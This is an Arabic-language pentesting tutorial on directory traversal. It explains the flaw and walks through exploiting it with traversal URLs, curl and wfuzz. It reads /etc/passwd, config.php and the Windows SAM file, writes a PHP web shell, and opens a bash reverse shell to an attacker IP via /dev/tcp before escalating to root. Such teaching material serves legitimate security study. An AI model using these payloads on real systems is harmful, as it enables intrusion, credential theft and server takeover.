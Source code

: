 # **1. إيه هو Directory Traversal؟**

## **الشرح العميق:**
"Directory Traversal" (أو Path Traversal) هو نوع من الثغرات الأمنية في تطبيقات الويب أو الأنظمة اللي بيسمح للمهاجم يطلع برا المجلد اللي المفروض محصور فيه ويوصل لملفات تانية في النظام. بمعنى تاني، التطبيق بياخد إدخال من المستخدم (زي اسم ملف في رابط)، لكن لو ما اتفلترش صح، المهاجم يقدر يستخدم حاجات زي `../` (في لينكس) أو `..\` (في ويندوز) عشان يتحرك لمجلدات أعلى ويفتح ملفات حساسة زي `/etc/passwd` أو `C:\Windows\system32\config\SAM`.

- **كيف بيحصل؟** لو التطبيق بيستخدم دالة زي `file_get_contents()` في PHP بدون ما يتحقق من الإدخال، المهاجم يقدر يعدي المسار المحدد.
- **الهدف:** قراءة ملفات مهمة أو كتابة ملفات لو الثغرة بتسمح.

## **الأدوات والأوامر العملية:**
### 1. **فحص يدوي في الويب:**
   - لو رابط زي: `http://target.com/file?path=doc.pdf`.
   - جرب: `http://target.com/file?path=../etc/passwd` -> لو ظهر محتوى الملف، يبقى فيه Directory Traversal.

### 2. **استخدام curl:**
   - `curl http://target.com/file?path=../../etc/passwd` -> لو رجع بيانات، يبقى مفتوح.

### 3. **أدوات تلقائية:**
   - بـ Burp Suite: Intercept الطلب وعدل الـ Parameter لـ `path=../etc/passwd`.

## **خلاصة بالعامية المصرية:**
"يعني زي ما تكون في أوضة في بيت، بس لقيت سلم سري يطلعك لأوض تانية المفروض ماتخشّهاش! Directory Traversal يعني بتطلع برا السجن بتاعك وتشوف أسرار البيت كله."

---

# **2. ليه المشكلة دي خطيرة؟**

## **الشرح العميق:**
الثغرة دي خطيرة لأنها بتدي المهاجم وصول لملفات المفروض تكون مخفية أو محمية، وده بيفتح الباب لكذا حاجة:
- **سرقة بيانات حساسة:** زي ملفات الإعدادات (`config.php`) أو كلمات السر المشفرة (`/etc/shadow`).
- **كشف النظام:** يعرف إزاي النظام شغال (مثل إصدارات البرامج من ملفات النظام).
- **تصعيد صلاحيات:** لو قدر يكتب ملف (زي Shell)، يتحكم في السيرفر.

في الـ Pentesting، الثغرة دي كنز لأنها بتخليك تشوف حاجات المفروض محدش يشوفها وتستغلها عشان تكبر وصولك.

## **الأدوات والأوامر العملية:**
### 1. **قراءة ملفات حساسة:**
   - `http://target.com/file?path=../../../../etc/passwd` -> ملف المستخدمين في لينكس.
   - `http://target.com/file?path=..\Windows\system32\config\SAM` -> ملف كلمات السر في ويندوز.

### 2. **استغلال لكشف أكواد:**
   - `http://target.com/file?path=../var/www/html/config.php` -> لو جاب كلمة سر قاعدة البيانات.

### 3. **اختبار متعمق:**
   - بـ wfuzz:
     - `wfuzz -c -z file,/usr/share/wordlists/dirb/common.txt --hc 404 http://target.com/file?path=../../FUZZ`.

# **خلاصة بالعامية المصرية:**
"الثغرة دي خطيرة لأنها زي ما تكون لقيت خريطة البيت كله، تقدر تفتح أي أوضة وتاخد اللي فيها! المهاجم يلاقيها، يبقى زي اللي مسك مفتاح الخزنة."

---

# **3. إزاي نستغلها في الـ Pentesting؟**
- **الهدف:** تستخدم Directory Traversal عشان تقرأ ملفات حساسة أو تكتب ملفات لو الثغرة بتسمح، وتوصل لتحكم أكبر.
- **مثال واقعي:** لو قدرت تقرأ `/etc/passwd`، تعرف المستخدمين، ولو لقيت `config.php`، تاخد كلمة سر قاعدة البيانات.

## **خلاصة بالعامية المصرية:**
"لما تلاقي الثغرة دي، زي ما تكون لقيت باب سري في لعبة، تفتحه وتبقى الكبير بتاع الماتش من غير ما حد يحس!"

---

# **خطوات عملية للاستغلال في Pentesting**

## **الخطوة 1: فحص الهدف**
- شغل Nmap:
  - `nmap -sV 192.168.1.10`.
- افترض النتيجة:
  - Port 80: Apache 2.4.29.

## **الخطوة 2: البحث عن الثغرة**
- جرب رابط ياخد Parameter:
  - `http://192.168.1.10/file?path=image.jpg`.
  - عدله: `http://192.168.1.10/file?path=../etc/passwd` -> لو ظهر الملف، يبقى فيه Directory Traversal.
- لو ما نجحش، زوّد `../`:
  - `http://192.168.1.10/file?path=../../../../etc/passwd`.

## **الخطوة 3: استغلال لقراءة ملفات**
- في لينكس:
  - `http://192.168.1.10/file?path=../../../../etc/passwd` -> تسريب المستخدمين.
  - `http://192.168.1.10/file?path=../../../../var/www/html/config.php` -> كلمة سر قاعدة البيانات.
- في ويندوز:
  - `http://192.168.1.10/file?path=..\..\Windows\system32\drivers\etc\hosts`.

## **الخطوة 4: استخدام البيانات**
- لو لقيت في `config.php`:
  - `$db_user = "root"; $db_pass = "secret123";`.
  - `mysql -u root -psecret123 -h 192.168.1.10` -> `SELECT * FROM users;`.

## **الخطوة 5: محاولة كتابة (لو ممكن)**
- لو الثغرة بتسمح بكتابة:
  - `http://192.168.1.10/file?path=../../../../var/www/html/shell.php&content=<?php system($_GET['cmd']); ?>`.
  - افتح: `http://192.168.1.10/shell.php?cmd=id` -> `www-data`.

## **الخطوة 6: تصعيد الصلاحيات**
- من الـ Shell:
  - `http://192.168.1.10/shell.php?cmd=/bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1`.
  - `nc -lvnp 4444` -> Shell.
  - `id` -> `www-data` -> `sudo -l` -> لو لقيت `sudo /bin/bash`، نفذه -> `root`.

## **الخطوة 7: توثيق**
- سجل الملفات اللي وصلت لها (زي `/etc/passwd` أو `config.php`).
- قدم تقرير يوضح إزاي الثغرة فتحت الباب لكل حاجة.

## **خلاصة بالعامية المصرية:**
"الخطوات دي زي ما تكون لقيت خرم في السقف، طلعت منه، فتحت كل الأوض، وطلعت الكبير بتاع الحتة! Directory Traversal طريقك للفوز بسهولة لو لقيتها."

---

# **الخلاصة النهائية:**
Directory Traversal هي ثغرة كبيرة لأنها بتخلّيك تتحرك برا الحدود وتشوف أو تعدل ملفات حساسة. في الـ Pentesting، دور عليها في الروابط باستخدام `../` أو أدوات زي Burp، استغلها عشان تسرق بيانات أو تاخد Shell، ووري العميل إن نظامه زي بيت مفتوح من غير أسوار! بالطريقة دي، تبقى البطل بتاع اللعبة بكل سهولة!